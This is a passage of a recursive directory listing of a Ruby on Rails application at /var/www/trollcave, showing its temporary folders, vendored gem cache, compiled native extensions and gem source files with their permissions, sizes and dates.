drwxrwxr-x 2 rails rails 4.0K May  6 01:06 .
drwxrwxr-x 6 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails    3 May  6 01:06 server.pid

/var/www/trollcave/tmp/sessions:
total 8.0K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 6 rails rails 4.0K Sep 16  2016 ..

/var/www/trollcave/tmp/sockets:
total 8.0K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 6 rails rails 4.0K Sep 16  2016 ..

/var/www/trollcave/vendor:
total 16K
drwxr-xr-x  4 rails rails 4.0K Sep 16  2016 .
drwxr-xr-x 13 rails rails 4.0K Oct 23  2017 ..
drwxr-xr-x  4 rails rails 4.0K Sep 16  2016 assets
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 bundle

/var/www/trollcave/vendor/assets:
total 16K
drwxr-xr-x 4 rails rails 4.0K Sep 16  2016 .
drwxr-xr-x 4 rails rails 4.0K Sep 16  2016 ..
drwxr-xr-x 2 rails rails 4.0K Sep 16  2016 javascripts
drwxr-xr-x 2 rails rails 4.0K Sep 16  2016 stylesheets

/var/www/trollcave/vendor/assets/javascripts:
total 8.0K
drwxr-xr-x 2 rails rails 4.0K Sep 16  2016 .
drwxr-xr-x 4 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails    0 Sep 16  2016 .keep

/var/www/trollcave/vendor/assets/stylesheets:
total 8.0K
drwxr-xr-x 2 rails rails 4.0K Sep 16  2016 .
drwxr-xr-x 4 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails    0 Sep 16  2016 .keep

/var/www/trollcave/vendor/bundle:
total 12K
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 .
drwxr-xr-x 4 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ruby

/var/www/trollcave/vendor/bundle/ruby:
total 12K
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 9 rails rails 4.0K Sep 16  2016 2.3.0

/var/www/trollcave/vendor/bundle/ruby/2.3.0:
total 36K
drwxrwxr-x  9 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 bin
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 build_info
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 cache
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 doc
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 extensions
drwxrwxr-x 50 rails rails 4.0K Sep 16  2016 gems
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 specifications

/var/www/trollcave/vendor/bundle/ruby/2.3.0/bin:
total 88K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 9 rails rails 4.0K Sep 16  2016 ..
-rwxr-xr-x 1 rails rails  498 Sep 16  2016 byebug
-rwxr-xr-x 1 rails rails  490 Sep 16  2016 haml
-rwxr-xr-x 1 rails rails  510 Sep 16  2016 html2haml
-rwxr-xr-x 1 rails rails  506 Sep 16  2016 nokogiri
-rwxr-xr-x 1 rails rails  490 Sep 16  2016 puma
-rwxr-xr-x 1 rails rails  493 Sep 16  2016 pumactl
-rwxr-xr-x 1 rails rails  490 Sep 16  2016 rake
-rwxr-xr-x 1 rails rails  490 Sep 16  2016 rdoc
-rwxr-xr-x 1 rails rails  510 Sep 16  2016 redcarpet
-rwxr-xr-x 1 rails rails  488 Sep 16  2016 ri
-rwxr-xr-x 1 rails rails  555 Sep 16  2016 ruby_parse
-rwxr-xr-x 1 rails rails  569 Sep 16  2016 ruby_parse_extract_error
-rwxr-xr-x 1 rails rails  490 Sep 16  2016 sass
-rwxr-xr-x 1 rails rails  498 Sep 16  2016 sass-convert
-rwxr-xr-x 1 rails rails  490 Sep 16  2016 scss
-rwxr-xr-x 1 rails rails  528 Sep 16  2016 sdoc
-rwxr-xr-x 1 rails rails  534 Sep 16  2016 sdoc-merge
-rwxr-xr-x 1 rails rails  498 Sep 16  2016 spring
-rwxr-xr-x 1 rails rails  510 Sep 16  2016 sprockets
-rwxr-xr-x 1 rails rails  490 Sep 16  2016 tilt

/var/www/trollcave/vendor/bundle/ruby/2.3.0/build_info:
total 8.0K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 9 rails rails 4.0K Sep 16  2016 ..

/var/www/trollcave/vendor/bundle/ruby/2.3.0/cache:
total 15M
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 9 rails rails 4.0K Sep 16  2016 ..
-rw-rw-r-- 1 rails rails  41K Sep 16  2016 ansi-1.5.0.gem
-rw-rw-r-- 1 rails rails  43K Sep 16  2016 bcrypt-3.1.10.gem
-rw-rw-r-- 1 rails rails  84K Sep 16  2016 binding_of_caller-0.7.2.gem
-rw-rw-r-- 1 rails rails  75K Sep 16  2016 byebug-6.0.2.gem
-rw-rw-r-- 1 rails rails 9.0K Sep 16  2016 coffee-rails-4.1.0.gem
-rw-rw-r-- 1 rails rails 6.5K Sep 16  2016 coffee-script-2.4.1.gem
-rw-rw-r-- 1 rails rails  57K Sep 16  2016 coffee-script-source-1.9.1.1.gem
-rw-rw-r-- 1 rails rails 6.5K Sep 16  2016 debug_inspector-0.0.2.gem
-rw-rw-r-- 1 rails rails  17K Sep 16  2016 execjs-2.6.0.gem
-rw-rw-r-- 1 rails rails 205K Sep 16  2016 faker-1.5.0.gem
-rw-rw-r-- 1 rails rails  11K Sep 16  2016 globalid-0.3.6.gem
-rw-rw-r-- 1 rails rails 119K Sep 16  2016 haml-4.0.7.gem
-rw-rw-r-- 1 rails rails  13K Sep 16  2016 haml-rails-0.9.0.gem
-rw-rw-r-- 1 rails rails  21K Sep 16  2016 html2haml-2.0.0.gem
-rw-rw-r-- 1 rails rails  26K Sep 16  2016 jbuilder-2.3.2.gem
-rw-rw-r-- 1 rails rails 338K Sep 16  2016 jquery-rails-4.0.5.gem
-rw-rw-r-- 1 rails rails 329K Sep 16  2016 mail-2.6.3.gem
-rw-rw-r-- 1 rails rails 187K Sep 16  2016 mime-types-2.6.2.gem
-rw-rw-r-- 1 rails rails  14K Sep 16  2016 mini_portile-0.6.2.gem
-rw-rw-r-- 1 rails rails  70K Sep 16  2016 minitest-5.8.1.gem
-rw-rw-r-- 1 rails rails  33K Sep 16  2016 minitest-rails-2.2.0.gem
-rw-rw-r-- 1 rails rails 208K Sep 16  2016 minitest-reporters-1.1.4.gem
-rw-rw-r-- 1 rails rails  25K Sep 16  2016 multi_json-1.11.2.gem
-rw-rw-r-- 1 rails rails 8.9M Sep 16  2016 nokogiri-1.6.6.2.gem
-rw-rw-r-- 1 rails rails 214K Sep 16  2016 pg-0.18.3.gem
-rw-rw-r-- 1 rails rails  95K Sep 16  2016 puma-2.14.0.gem
-rw-rw-r-- 1 rails rails 8.0K Sep 16  2016 rails_12factor-0.0.3.gem
-rw-rw-r-- 1 rails rails  15K Sep 16  2016 rails-html-sanitizer-1.0.2.gem
-rw-rw-r-- 1 rails rails 1.3M Sep 16  2016 rails_serve_static_assets-0.0.4.gem
-rw-rw-r-- 1 rails rails  77K Sep 16  2016 rails_stdout_logging-0.0.4.gem
-rw-rw-r-- 1 rails rails 128K Sep 16  2016 rake-10.4.2.gem
-rw-rw-r-- 1 rails rails 718K Sep 16  2016 rdoc-4.2.0.gem
-rw-rw-r-- 1 rails rails  59K Sep 16  2016 redcarpet-3.3.3.gem
-rw-rw-r-- 1 rails rails 304K Sep 16  2016 ruby_parser-3.7.1.gem
-rw-rw-r-- 1 rails rails  21K Sep 16  2016 ruby-progressbar-1.7.5.gem
-rw-rw-r-- 1 rails rails 331K Sep 16  2016 sass-3.4.19.gem
-rw-rw-r-- 1 rails rails  11K Sep 16  2016 sass-rails-5.0.4.gem
-rw-rw-r-- 1 rails rails 275K Sep 16  2016 sdoc-0.4.1.gem
-rw-rw-r-- 1 rails rails  39K Sep 16  2016 sexp_processor-4.6.0.gem
-rw-rw-r-- 1 rails rails  34K Sep 16  2016 spring-1.4.0.gem
-rw-rw-r-- 1 rails rails  67K Sep 16  2016 sprockets-3.4.0.gem
-rw-rw-r-- 1 rails rails  13K Sep 16  2016 sprockets-rails-2.3.3.gem
-rw-rw-r-- 1 rails rails  60K Sep 16  2016 sqlite3-1.3.11.gem
-rw-rw-r-- 1 rails rails  44K Sep 16  2016 tilt-2.0.1.gem
-rw-rw-r-- 1 rails rails  21K Sep 16  2016 turbolinks-2.5.3.gem
-rw-rw-r-- 1 rails rails  83K Sep 16  2016 uglifier-2.7.2.gem
-rw-rw-r-- 1 rails rails  22K Sep 16  2016 web-console-2.2.1.gem
-rw-rw-r-- 1 rails rails  35K Sep 16  2016 will_paginate-3.0.7.gem

/var/www/trollcave/vendor/bundle/ruby/2.3.0/doc:
total 8.0K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 9 rails rails 4.0K Sep 16  2016 ..

/var/www/trollcave/vendor/bundle/ruby/2.3.0/extensions:
total 12K
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 9 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 x86_64-linux

/var/www/trollcave/vendor/bundle/ruby/2.3.0/extensions/x86_64-linux:
total 12K
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 11 rails rails 4.0K Sep 16  2016 2.3.0

/var/www/trollcave/vendor/bundle/ruby/2.3.0/extensions/x86_64-linux/2.3.0:
total 44K
drwxrwxr-x 11 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 bcrypt-3.1.10
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 binding_of_caller-0.7.2
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 byebug-6.0.2
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 debug_inspector-0.0.2
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 nokogiri-1.6.6.2
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 pg-0.18.3
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 puma-2.14.0
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 redcarpet-3.3.3
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 sqlite3-1.3.11

/var/www/trollcave/vendor/bundle/ruby/2.3.0/extensions/x86_64-linux/2.3.0/bcrypt-3.1.10:
total 128K
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 11 rails rails 4.0K Sep 16  2016 ..
-rwxr-xr-x  1 rails rails 113K Sep 16  2016 bcrypt_ext.so
-rw-rw-r--  1 rails rails    0 Sep 16  2016 gem.build_complete
-rw-rw-r--  1 rails rails  731 Sep 16  2016 gem_make.out

/var/www/trollcave/vendor/bundle/ruby/2.3.0/extensions/x86_64-linux/2.3.0/binding_of_caller-0.7.2:
total 12K
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 11 rails rails 4.0K Sep 16  2016 ..
-rw-rw-r--  1 rails rails    0 Sep 16  2016 gem.build_complete
-rw-rw-r--  1 rails rails  674 Sep 16  2016 gem_make.out

/var/www/trollcave/vendor/bundle/ruby/2.3.0/extensions/x86_64-linux/2.3.0/byebug-6.0.2:
total 16K
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 11 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 byebug
-rw-rw-r--  1 rails rails    0 Sep 16  2016 gem.build_complete
-rw-rw-r--  1 rails rails  733 Sep 16  2016 gem_make.out

/var/www/trollcave/vendor/bundle/ruby/2.3.0/extensions/x86_64-linux/2.3.0/byebug-6.0.2/byebug:
total 148K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
-rwxr-xr-x 1 rails rails 139K Sep 16  2016 byebug.so

/var/www/trollcave/vendor/bundle/ruby/2.3.0/extensions/x86_64-linux/2.3.0/debug_inspector-0.0.2:
total 40K
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 11 rails rails 4.0K Sep 16  2016 ..
-rwxr-xr-x  1 rails rails  25K Sep 16  2016 debug_inspector.so
-rw-rw-r--  1 rails rails    0 Sep 16  2016 gem.build_complete
-rw-rw-r--  1 rails rails  735 Sep 16  2016 gem_make.out

/var/www/trollcave/vendor/bundle/ruby/2.3.0/extensions/x86_64-linux/2.3.0/nokogiri-1.6.6.2:
total 108K
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 11 rails rails 4.0K Sep 16  2016 ..
-rw-rw-r--  1 rails rails    0 Sep 16  2016 gem.build_complete
-rw-rw-r--  1 rails rails  19K Sep 16  2016 gem_make.out
-rw-rw-r--  1 rails rails  73K Sep 16  2016 mkmf.log
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 nokogiri

/var/www/trollcave/vendor/bundle/ruby/2.3.0/extensions/x86_64-linux/2.3.0/nokogiri-1.6.6.2/nokogiri:
total 2.8M
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
-rwxr-xr-x 1 rails rails 2.8M Sep 16  2016 nokogiri.so

/var/www/trollcave/vendor/bundle/ruby/2.3.0/extensions/x86_64-linux/2.3.0/pg-0.18.3:
total 692K
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 11 rails rails 4.0K Sep 16  2016 ..
-rw-rw-r--  1 rails rails    0 Sep 16  2016 gem.build_complete
-rw-rw-r--  1 rails rails 3.0K Sep 16  2016 gem_make.out
-rw-rw-r--  1 rails rails  59K Sep 16  2016 mkmf.log
-rwxr-xr-x  1 rails rails 617K Sep 16  2016 pg_ext.so

/var/www/trollcave/vendor/bundle/ruby/2.3.0/extensions/x86_64-linux/2.3.0/puma-2.14.0:
total 24K
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 11 rails rails 4.0K Sep 16  2016 ..
-rw-rw-r--  1 rails rails    0 Sep 16  2016 gem.build_complete
-rw-rw-r--  1 rails rails 1.3K Sep 16  2016 gem_make.out
-rw-rw-r--  1 rails rails 4.9K Sep 16  2016 mkmf.log
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 puma

/var/www/trollcave/vendor/bundle/ruby/2.3.0/extensions/x86_64-linux/2.3.0/puma-2.14.0/puma:
total 144K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
-rwxr-xr-x 1 rails rails 135K Sep 16  2016 puma_http11.so

/var/www/trollcave/vendor/bundle/ruby/2.3.0/extensions/x86_64-linux/2.3.0/redcarpet-3.3.3:
total 384K
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 11 rails rails 4.0K Sep 16  2016 ..
-rw-rw-r--  1 rails rails    0 Sep 16  2016 gem.build_complete
-rw-rw-r--  1 rails rails 1.9K Sep 16  2016 gem_make.out
-rwxr-xr-x  1 rails rails 371K Sep 16  2016 redcarpet.so

/var/www/trollcave/vendor/bundle/ruby/2.3.0/extensions/x86_64-linux/2.3.0/sqlite3-1.3.11:
total 36K
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 11 rails rails 4.0K Sep 16  2016 ..
-rw-rw-r--  1 rails rails    0 Sep 16  2016 gem.build_complete
-rw-rw-r--  1 rails rails 1.5K Sep 16  2016 gem_make.out
-rw-rw-r--  1 rails rails  20K Sep 16  2016 mkmf.log
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 sqlite3

/var/www/trollcave/vendor/bundle/ruby/2.3.0/extensions/x86_64-linux/2.3.0/sqlite3-1.3.11/sqlite3:
total 128K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
-rwxr-xr-x 1 rails rails 119K Sep 16  2016 sqlite3_native.so

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems:
total 200K
drwxrwxr-x 50 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x  9 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x  5 rails rails 4.0K Sep 16  2016 ansi-1.5.0
drwxrwxr-x  5 rails rails 4.0K Sep 16  2016 bcrypt-3.1.10
drwxrwxr-x  6 rails rails 4.0K Sep 16  2016 binding_of_caller-0.7.2
drwxrwxr-x  5 rails rails 4.0K Sep 16  2016 byebug-6.0.2
drwxrwxr-x  5 rails rails 4.0K Sep 16  2016 coffee-rails-4.1.0
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 coffee-script-2.4.1
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 coffee-script-source-1.9.1.1
drwxrwxr-x  4 rails rails 4.0K Sep 16  2016 debug_inspector-0.0.2
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 execjs-2.6.0
drwxrwxr-x  4 rails rails 4.0K Sep 16  2016 faker-1.5.0
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 globalid-0.3.6
drwxrwxr-x  5 rails rails 4.0K Sep 16  2016 haml-4.0.7
drwxrwxr-x  5 rails rails 4.0K Sep 16  2016 haml-rails-0.9.0
drwxrwxr-x  5 rails rails 4.0K Sep 16  2016 html2haml-2.0.0
drwxrwxr-x  5 rails rails 4.0K Sep 16  2016 jbuilder-2.3.2
drwxrwxr-x  5 rails rails 4.0K Sep 16  2016 jquery-rails-4.0.5
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 mail-2.6.3
drwxrwxr-x  7 rails rails 4.0K Sep 16  2016 mime-types-2.6.2
drwxrwxr-x  4 rails rails 4.0K Sep 16  2016 mini_portile-0.6.2
drwxrwxr-x  4 rails rails 4.0K Sep 16  2016 minitest-5.8.1
drwxrwxr-x  6 rails rails 4.0K Sep 16  2016 minitest-rails-2.2.0
drwxrwxr-x  5 rails rails 4.0K Sep 16  2016 minitest-reporters-1.1.4
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 multi_json-1.11.2
drwxrwxr-x  8 rails rails 4.0K Sep 16  2016 nokogiri-1.6.6.2
drwxrwxr-x  6 rails rails 4.0K Sep 16  2016 pg-0.18.3
drwxrwxr-x  7 rails rails 4.0K Sep 16  2016 puma-2.14.0
drwxrwxr-x  4 rails rails 4.0K Sep 16  2016 rails_12factor-0.0.3
drwxrwxr-x  4 rails rails 4.0K Sep 16  2016 rails-html-sanitizer-1.0.2
drwxrwxr-x  5 rails rails 4.0K Sep 16  2016 rails_serve_static_assets-0.0.4
drwxrwxr-x  5 rails rails 4.0K Sep 16  2016 rails_stdout_logging-0.0.4
drwxrwxr-x  7 rails rails 4.0K Sep 16  2016 rake-10.4.2
drwxrwxr-x  5 rails rails 4.0K Sep 16  2016 rdoc-4.2.0
drwxrwxr-x  6 rails rails 4.0K Sep 16  2016 redcarpet-3.3.3
drwxrwxr-x  5 rails rails 4.0K Sep 16  2016 ruby_parser-3.7.1
drwxrwxr-x  4 rails rails 4.0K Sep 16  2016 ruby-progressbar-1.7.5
drwxrwxr-x  8 rails rails 4.0K Sep 16  2016 sass-3.4.19
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 sass-rails-5.0.4
drwxrwxr-x  5 rails rails 4.0K Sep 16  2016 sdoc-0.4.1
drwxrwxr-x  4 rails rails 4.0K Sep 16  2016 sexp_processor-4.6.0
drwxrwxr-x  4 rails rails 4.0K Sep 16  2016 spring-1.4.0
drwxrwxr-x  4 rails rails 4.0K Sep 16  2016 sprockets-3.4.0
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 sprockets-rails-2.3.3
drwxrwxr-x  7 rails rails 4.0K Sep 16  2016 sqlite3-1.3.11
drwxrwxr-x  6 rails rails 4.0K Sep 16  2016 tilt-2.0.1
drwxrwxr-x  4 rails rails 4.0K Sep 16  2016 turbolinks-2.5.3
drwxrwxr-x  5 rails rails 4.0K Sep 16  2016 uglifier-2.7.2
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 web-console-2.2.1
drwxrwxr-x  4 rails rails 4.0K Sep 16  2016 will_paginate-3.0.7

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/ansi-1.5.0:
total 64K
drwxrwxr-x  5 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 50 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 demo
-rw-r--r--  1 rails rails  11K Sep 16  2016 DEMO.md
-rw-rw-r--  1 rails rails 6.3K Sep 16  2016 HISTORY.md
-rw-rw-r--  1 rails rails 1.5K Sep 16  2016 .index
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 lib
-rw-rw-r--  1 rails rails 1.3K Sep 16  2016 LICENSE.txt
-rw-r--r--  1 rails rails 6.6K Sep 16  2016 NOTICE.md
-rw-r--r--  1 rails rails 2.5K Sep 16  2016 README.md
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 test
-rw-r--r--  1 rails rails   60 Sep 16  2016 .yardopts

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/ansi-1.5.0/demo:
total 56K
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 5 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails 1.8K Sep 16  2016 01_ansicode.md
-rw-r--r-- 1 rails rails  318 Sep 16  2016 02_core.md
-rw-r--r-- 1 rails rails  500 Sep 16  2016 03_logger.md
-rw-r--r-- 1 rails rails 1.6K Sep 16  2016 04_progressbar.md
-rw-r--r-- 1 rails rails  857 Sep 16  2016 05_mixin.md
-rw-r--r-- 1 rails rails 1.6K Sep 16  2016 06_string.md
-rw-r--r-- 1 rails rails 1.9K Sep 16  2016 07_columns.md
-rw-r--r-- 1 rails rails  451 Sep 16  2016 08_table.md
-rw-r--r-- 1 rails rails  884 Sep 16  2016 09_diff.md
-rw-r--r-- 1 rails rails  681 Sep 16  2016 10_bbcode.md
-rw-r--r-- 1 rails rails  169 Sep 16  2016 11_terminal.md
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 applique

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/ansi-1.5.0/demo/applique:
total 16K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails   13 Sep 16  2016 ae.rb
-rw-r--r-- 1 rails rails  106 Sep 16  2016 output.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/ansi-1.5.0/lib:
total 20K
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 5 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ansi
-rw-r--r-- 1 rails rails  426 Sep 16  2016 ansi.rb
-rw-rw-r-- 1 rails rails 1.5K Sep 16  2016 ansi.yml

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/ansi-1.5.0/lib/ansi:
total 120K
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  13K Sep 16  2016 bbcode.rb
-rw-r--r-- 1 rails rails  640 Sep 16  2016 chain.rb
-rw-r--r-- 1 rails rails 3.0K Sep 16  2016 chart.rb
-rw-r--r-- 1 rails rails 8.8K Sep 16  2016 code.rb
-rw-rw-r-- 1 rails rails 4.8K Sep 16  2016 columns.rb
-rw-r--r-- 1 rails rails  529 Sep 16  2016 constants.rb
-rw-r--r-- 1 rails rails  347 Sep 16  2016 core.rb
-rw-rw-r-- 1 rails rails 5.3K Sep 16  2016 diff.rb
-rw-r--r-- 1 rails rails 3.0K Sep 16  2016 hexdump.rb
-rw-r--r-- 1 rails rails 4.9K Sep 16  2016 logger.rb
-rw-r--r-- 1 rails rails 6.2K Sep 16  2016 mixin.rb
-rw-rw-r-- 1 rails rails 6.3K Sep 16  2016 progressbar.rb
-rw-rw-r-- 1 rails rails 6.0K Sep 16  2016 string.rb
-rw-rw-r-- 1 rails rails 3.8K Sep 16  2016 table.rb
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 terminal
-rw-r--r-- 1 rails rails  875 Sep 16  2016 terminal.rb
-rw-r--r-- 1 rails rails  325 Sep 16  2016 version.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/ansi-1.5.0/lib/ansi/terminal:
total 24K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  396 Sep 16  2016 curses.rb
-rw-r--r-- 1 rails rails 1.3K Sep 16  2016 stty.rb
-rw-r--r-- 1 rails rails 1.8K Sep 16  2016 termios.rb
-rw-r--r-- 1 rails rails 3.0K Sep 16  2016 win32.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/ansi-1.5.0/test:
total 28K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 5 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  703 Sep 16  2016 case_ansicode.rb
-rw-r--r-- 1 rails rails 1.2K Sep 16  2016 case_bbcode.rb
-rw-r--r-- 1 rails rails  530 Sep 16  2016 case_mixin.rb
-rw-r--r-- 1 rails rails  382 Sep 16  2016 case_progressbar.rb
-rw-r--r-- 1 rails rails   30 Sep 16  2016 test_helper.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/bcrypt-3.1.10:
total 64K
drwxrwxr-x  5 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 50 rails rails 4.0K Sep 16  2016 ..
-rw-r--r--  1 rails rails  981 Sep 16  2016 bcrypt.gemspec
-rw-r--r--  1 rails rails 2.8K Sep 16  2016 CHANGELOG
-rw-r--r--  1 rails rails 1.3K Sep 16  2016 COPYING
drwxrwxr-x  4 rails rails 4.0K Sep 16  2016 ext
-rw-r--r--  1 rails rails   38 Sep 16  2016 Gemfile
-rw-r--r--  1 rails rails  722 Sep 16  2016 Gemfile.lock
-rw-r--r--  1 rails rails   61 Sep 16  2016 .gitignore
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 lib
-rw-r--r--  1 rails rails 2.3K Sep 16  2016 Rakefile
-rw-r--r--  1 rails rails 7.6K Sep 16  2016 README.md
-rw-r--r--  1 rails rails   43 Sep 16  2016 .rspec
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 spec
-rw-r--r--  1 rails rails  186 Sep 16  2016 .travis.yml

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/bcrypt-3.1.10/ext:
total 16K
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 5 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 jruby
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 mri

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/bcrypt-3.1.10/ext/jruby:
total 12K
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 bcrypt_jruby

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/bcrypt-3.1.10/ext/jruby/bcrypt_jruby:
total 36K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  27K Sep 16  2016 BCrypt.java

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/bcrypt-3.1.10/ext/mri:
total 344K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails 1.6K Sep 16  2016 bcrypt_ext.c
-rw-rw-r-- 1 rails rails  15K Sep 16  2016 bcrypt_ext.o
-rwxrwxr-x 1 rails rails 113K Sep 16  2016 bcrypt_ext.so
-rw-r--r-- 1 rails rails  26K Sep 16  2016 crypt_blowfish.c
-rw-rw-r-- 1 rails rails  85K Sep 16  2016 crypt_blowfish.o
-rw-r--r-- 1 rails rails 1.1K Sep 16  2016 crypt.c
-rw-r--r-- 1 rails rails 3.3K Sep 16  2016 crypt_gensalt.c
-rw-rw-r-- 1 rails rails 9.6K Sep 16  2016 crypt_gensalt.o
-rw-r--r-- 1 rails rails  268 Sep 16  2016 crypt.h
-rw-rw-r-- 1 rails rails  18K Sep 16  2016 crypt.o
-rw-r--r-- 1 rails rails  417 Sep 16  2016 extconf.rb
-rw-rw-r-- 1 rails rails 7.8K Sep 16  2016 Makefile
-rw-r--r-- 1 rails rails  998 Sep 16  2016 ow-crypt.h
-rw-rw-r-- 1 rails rails    0 Sep 16  2016 .RUBYARCHDIR.time
-rw-r--r-- 1 rails rails 7.0K Sep 16  2016 wrapper.c
-rw-rw-r-- 1 rails rails  16K Sep 16  2016 wrapper.o

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/bcrypt-3.1.10/lib:
